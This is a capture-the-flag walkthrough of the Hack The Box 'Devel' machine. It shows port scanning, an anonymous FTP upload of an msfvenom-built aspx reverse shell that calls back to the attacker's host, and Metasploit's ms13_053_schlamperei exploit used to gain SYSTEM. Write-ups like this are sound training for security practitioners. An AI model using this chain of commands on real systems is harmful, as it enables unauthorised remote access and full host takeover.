

---
tags:
  - ms13-053
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Devel
- Reference : https://0xdf.gitlab.io/2019/03/05/htb-devel.html
- Solved : 2025.1.12. (Sun) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: FTP (21), HTTP (80).
    - **FTP**: Anonymous login allowed; directory overlaps with HTTP root.
    - **HTTP**: Default IIS7 page; confirmed FTP-uploaded files accessible via HTTP.
    
2. **Initial Access**
    - **Approach**: Uploaded a test file via FTP and verified web access.
    - **Payload**: Used `msfvenom` to generate a reverse shell (`.aspx`) and executed it through HTTP.
    - **Result**: Obtained shell as `IIS APPPOOL\Web`.
    
3. **Privilege Escalation**
    - **Exploit Used**: `ms13_053_schlamperei`.
    - **Method**: Leveraged Metasploit to escalate privileges.
    - **Result**: Gained `NT AUTHORITY\SYSTEM`.

### Key Techniques:

1. Verified FTP write access and web server integration.
2. Uploaded and executed a reverse shell via HTTP.
3. Used Metasploit's local exploit suggester for privilege escalation.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.5  
Performing quick port scan on 10.10.10.5...
Found open ports: 21,80
Performing detailed scan on 10.10.10.5...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 06:29 UTC
Nmap scan report for 10.10.10.5
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds
```

### ftp(21)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49167|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

I checked all downloaded files, but none of them are interesting for now.
Given the directory name `aspnet_client`, I guessed that the server can run `asp` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat test.txt                                    
test file


┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.10.10.5             
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
100% |******************************|    11      233.52 KiB/s    --:-- ETA
226 Transfer complete.
11 bytes sent in 00:00 (0.08 KiB/s)
```

It allows `PUT` method, so I uploaded a test file.

### http(80)



It returns a default IIS page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 50524 / 441122 (11.45%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 50531 / 441122 (11.46%)
===============================================================
Finished
===============================================================
```

It couldn't find any sub pages.
Just in case ftp service directory is same with webroot, let's try files I found from ftp service.

`iisstart.htm` and `welcome.png` both return page without an error.
So my assumption was correct!
The test file `test.txt` I uploaded is returned successfully as well.


# Shell as `iis apppool\web`

### Upload webshell

Since I can upload a file on webroot, I can upload a webshell here.
I found meterpreter webshell on kali, and uploaded it through ftp.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f aspx > met_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2859 bytes
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.10.10.5                        
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put met_rev_443.aspx
local: met_rev_443.aspx remote: met_rev_443.aspx
229 Entering Extended Passive Mode (|||49194|)
150 Opening ASCII mode data connection.
100% |*******************************|  2899       12.91 MiB/s    --:-- ETA
226 Transfer complete.
2899 bytes sent in 00:00 (22.34 KiB/s)
```

Then, I can fetch the webdshell via `http://10.10.10.5/met_rev_443.aspx`.

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 9000
LPORT => 9000
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.10.10.5:49195) at 2025-01-12 08:08:34 +0000

meterpreter > getuid
Server username: IIS APPPOOL\Web
```

The webshell works and I got a meterpreter shell!


# Shell as `SYSTEM`

### Exploit Suggester

With meterpreter shell, I can leverage `multi/recon/local_exploit_suggester` module from metasploit. This helps finding privilege escalation vector of the obtained sysytem.

```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 196 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                     
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

A lot of potential exploits are returned, but some have comments that "could not be validated".

### privilege escalation via ms13-053

I found more reliable exploit : `exploit/windows/local/ms13_053_schlamperei`
Let me try using this module.

```bash
msf6 exploit(windows/local/ms13_053_schlamperei) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(windows/local/ms13_053_schlamperei) > set LPORT 9001
LPORT => 9001
msf6 exploit(windows/local/ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms13_053_schlamperei) > check
[*] The target appears to be vulnerable.
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.14.15:9001 
[*] Launching notepad to host the exploit...
[+] Process 2476 launched.
[*] Reflectively injecting the exploit DLL into 2476...
[*] Injecting exploit into 2476...
[*] Found winlogon.exe with PID 436
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.15:9001 -> 10.10.10.5:49196) at 2025-01-12 08:14:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

It worked! And I got a `SYSTEM`'s shell!